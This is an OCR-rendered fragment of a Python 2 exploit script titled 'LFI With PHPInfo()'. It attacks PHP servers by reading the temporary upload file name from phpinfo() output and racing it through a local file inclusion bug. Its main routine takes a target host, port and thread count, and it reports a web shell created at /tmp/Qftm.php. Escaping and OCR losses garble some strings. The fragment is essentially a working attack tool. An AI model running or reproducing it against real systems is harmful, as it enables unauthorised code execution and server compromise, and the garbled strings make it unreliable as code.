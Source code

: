 ```
                if counter &gt;= self.maxattempts:
                    return
                counter += 1

            try:
                x = phpInfoLFI(*self.args)
                if self.event.is_set():
                    break
                if x:
                    print "nGot it! Shell created in /tmp/Qftm.php"
                    self.event.set()

            except socket.error:
                return

def getOffset(host, port, phpinforeq):
    """Gets offset of tmp_name in the php output"""
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    s.send(phpinforeq)

    d = ""
    while True:
        i = s.recv(4096)
        d += i
        if i == "":
            break
        # detect the final chunk
        if i.endswith("0rnrn"):
            break
    s.close()
    i = d.find("[tmp_name] =&amp;gt; ")
    if i == -1:
        raise ValueError("No php tmp_name in phpinfo output")

    print "found %s at %i" % (d[i:i + 10], i)
    # padded up a bit
    return i + 256

def main():
    print "LFI With PHPInfo()"
    print "-=" * 30

    if len(sys.argv) &lt; 2:
        print "Usage: %s host [port] [threads]" % sys.argv[0]
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error, e:
        print "Error with hostname %s: %s" % (sys.argv[1], e)
        sys.exit(1)

    port = 80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError, e:
        print "Error with port %d: %s" % (sys.argv[2], e)
        sys.exit(1)

    poolsz = 10
```
